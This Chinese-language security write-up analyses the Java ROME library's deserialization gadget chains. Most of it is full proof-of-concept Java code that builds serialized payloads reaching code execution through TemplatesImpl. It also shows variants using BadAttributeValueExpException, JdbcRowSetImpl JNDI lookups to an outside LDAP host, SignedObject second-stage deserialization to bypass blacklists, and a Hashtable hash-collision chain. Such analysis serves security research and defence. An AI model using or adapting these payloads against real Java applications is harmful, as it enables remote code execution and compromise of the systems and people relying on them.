ROME 反序列化利用链

- - -

# ROME 反序列化利用链

## 前言

rome 中的 ToStringBean 类，其构造函数为传入类和对象，分别赋值给 this.\_beanClass 和 this.\_obj  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223058-15612f4a-8ad6-1.png)  
其无参 toString 方法会调用有参 toString 方法，传入的参数为 this.\_beanClass 值的类名  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223105-197f3fc2-8ad6-1.png)  
在有参 toString 方法中，会先获取 this.\_beanClass 的 getter 方法，然后通过反射调用 this.\_obj 的 getter 无参方法，而 TemplatesImpl 的 getOutputProperties 方法会触发类加载导致代码执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223112-1dadf502-8ad6-1.png)  
rome 中的 EqualsBean 类的 hashCode 方法会调用 beanHashCode 方法，而 beanHashCode 方法会调用 this.\_obj.toString() 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223118-215ac4be-8ad6-1.png)  
this.\_obj 由 EqualsBean 的构造函数传入，是我们可控的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223124-24d2a6ac-8ad6-1.png)  
因为在 HashMap 的 readobject 方法中，会调用 hash(key)，进而调用 key.hashCode()，所以我们可以利用 HashMap 作为入口构造反序列化链子

## demo

util.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class util {
    public static Object getTeml() throws Exception{
        // 动态构造恶意 TemplatesImpl 对象
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("asdasdasasd");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Evil" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        // 获得其变量
        Field name = templates.getClass().getDeclaredField("_name");
        Field clazz = templates.getClass().getDeclaredField("_class");
        Field factory = templates.getClass().getDeclaredField("_tfactory");
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        // 赋予修改权限
        name.setAccessible(true);
        clazz.setAccessible(true);
        factory.setAccessible(true);
        bytecodes.setAccessible(true);
        // 修改变量值
        name.set(templates,"asdasd");
        clazz.set(templates,null);
        factory.set(templates, new TransformerFactoryImpl());
        bytecodes.set(templates,targetByteCodes);
        return templates;
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }
    public static byte[] serialize(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    public static void unserialize(byte[] b) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bis = new ByteArrayInputStream(b);
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

rome.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.HashMap;

public class rome {

    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        HashMap hashmap = new HashMap();
        util.setFieldValue(hashmap,"size",2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, 1, null));
        util.setFieldValue(hashmap,"table",tbl);

        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223211-4165ff6c-8ad6-1.png)

## 调试分析

构造的 HashMap  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223223-485c5320-8ad6-1.png)  
在 HashMap 的 readObject 方法中会调用到 putVal(hash(key), key, value, false, false)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223229-4c0d1478-8ad6-1.png)  
跟进 hash(key)，会调用 key.hashCode() 方法，此时 key 为 EqualsBean 对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223235-4f9bc4ea-8ad6-1.png)  
紧接着调用到 EqualsBean 的 beanHashCode 方法，然后调用 this.\_obj.toString() 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223241-52e6417a-8ad6-1.png)  
此处 this.\_obj 为 ToStringBean  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223247-56daacd0-8ad6-1.png)  
进入 ToStringBean.toString 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223253-5a6b859a-8ad6-1.png)  
获取 getter 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223301-5f034ee4-8ad6-1.png)  
反射调用 this.\_obj 的 getter 方法，此处 this.\_obj 为恶意 TemplatesImpl 对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223308-62cc1222-8ad6-1.png)  
反射调用恶意 TemplatesImpl 对象的 getOutputProperties 方法，从而触发类加载导致代码执行  
调用栈：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223316-68220c2c-8ad6-1.png)

## 其他构造方式

### BadAttributeValueExpException

BadAttributeValueExpException 类在反序列化时会调用 toString 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223338-74c03440-8ad6-1.png)  
valObj 可控，为其构造函数传入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223345-790421c4-8ad6-1.png)  
demo

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.util.Base64;

public class rome2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        BadAttributeValueExpException b = new BadAttributeValueExpException(1);
        util.setFieldValue(b,"val",toStringBean);
        byte[] ser = util.serialize(b);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223402-834784be-8ad6-1.png)  
调用栈：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223412-89423eae-8ad6-1.png)

### JdbcRowSetImpl

JdbcRowSetImpl 类的 getDatabaseMetaData 方法会调用 this.connect 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223425-90cd0a50-8ad6-1.png)  
this.connect 方法中会调用 lookup，在 dataSource 可控的情况下会造成 jndi 注入漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223430-9401a88e-8ad6-1.png)  
dataSource 可以通过 setDataSourceName 来设置  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223436-97481726-8ad6-1.png)  
demo：

```plain
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.util.Base64;
import java.util.HashMap;

public class rome3 {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl j = new JdbcRowSetImpl();
        j.setDataSourceName("ldap://d92d14bde1.ipv6.xn--gg8h.eu.org.");
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, "1");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean,1);
        util.setFieldValue(toStringBean,"_obj",j);
        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223451-a076529a-8ad6-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223455-a2c31dc6-8ad6-1.png)

### SignedObject

SignedObject 类的 getObject 方法中，会反序列化 this.content，造成二次反序列化  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223512-ad0569c4-8ad6-1.png)  
而 this.content 由其构造函数传入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223518-b0aa5bd4-8ad6-1.png)  
再反序列化入口有黑名单时，可以将序列化对象最为参数传入 SignedObject 的构造函数中，触发 SignedObject 的 getObject 方法，造成二次反序列化进行绕过  
demo:

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;

public class rome4 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);

        SignedObject s = makeSignedObject(hashmap);

        // 二次反序列化
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class, "s");
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class, toStringBean2);
        HashMap hashmap2 = new HashMap();
        hashmap2.put(equalsBean2, "1");
        util.setFieldValue(toStringBean2,"_obj",s);

        byte[] ser = util.serialize(hashmap2);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {

                    }

                    @Override
                    protected void engineUpdate(byte[] b, int off, int len) throws SignatureException {

                    }

                    @Override
                    protected byte[] engineSign() throws SignatureException {
                        return new byte[0];
                    }

                    @Override
                    protected boolean engineVerify(byte[] sigBytes) throws SignatureException {
                        return false;
                    }

                    @Override
                    protected void engineSetParameter(String param, Object value) throws InvalidParameterException {

                    }

                    @Override
                    protected Object engineGetParameter(String param) throws InvalidParameterException {
                        return null;
                    }
                });
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223543-bf6acfc8-8ad6-1.png)

### 不依赖 ToStringBean

EqualsBean 的 beanEquals 方法中也存在 getter 方法的调用，但需要满足 this.\_obj 和 obj 都不为空，this.\_obj 是构造函数传入的，obj 是调用 beanEquals 方法时传入的参数，EqualsBean 的 equals 方法调用了 beanEquals 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223606-cd27cfc6-8ad6-1.png)  
在 Hashtable 的 readObject 方法中，会调用 reconstitutionPut 方法，在 reconstitutionPut 方法中会调用到 equals 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223612-d0d3a726-8ad6-1.png)  
e 是由 tab 而来，tab 中为空时，会将传入的 key 和 value 传入 tab  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223618-d4857520-8ad6-1.png)  
不为空时，会调用 if ((e.hash == hash) && e.key.equals(key))，先进行 hash 判断，hash 由 key.hashCode 而来 (可 hash 碰撞进行绕过)，HashMap 的 eauqls 方法最终会调用到 AbstractMap 的 equals 方法，AbstractMap 的 equals 方法中，会调用到 value.equals(m.get(key))  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223624-d82d32a8-8ad6-1.png)  
构造 payload 使 value 为 equalsbean，m.get(key) 为恶意对象  
demo：

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class rome6 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);
        SignedObject s = makeSignedObject(hashmap);
        SignedObject s2 = makeSignedObject(null);

        // 二次反序列化
        EqualsBean equalsBean2 = new EqualsBean(String.class, "1");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",equalsBean2);
        map1.put("zZ",s);
        map2.put("zZ",equalsBean2);
        map2.put("yy",s);

        Hashtable t = new Hashtable<>();
        t.put(map1,"1");
        t.put(map2,"2");

        util.setFieldValue(equalsBean2,"_beanClass",SignedObject.class);
        util.setFieldValue(equalsBean2,"_obj",s2);

        byte[] ser = util.serialize(t);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);

    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {

                    }

                    @Override
                    protected void engineUpdate(byte[] b, int off, int len) throws SignatureException {

                    }

                    @Override
                    protected byte[] engineSign() throws SignatureException {
                        return new byte[0];
                    }

                    @Override
                    protected boolean engineVerify(byte[] sigBytes) throws SignatureException {
                        return false;
                    }

                    @Override
                    protected void engineSetParameter(String param, Object value) throws InvalidParameterException {

                    }

                    @Override
                    protected Object engineGetParameter(String param) throws InvalidParameterException {
                        return null;
                    }
                });
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223642-e2939e9e-8ad6-1.png)
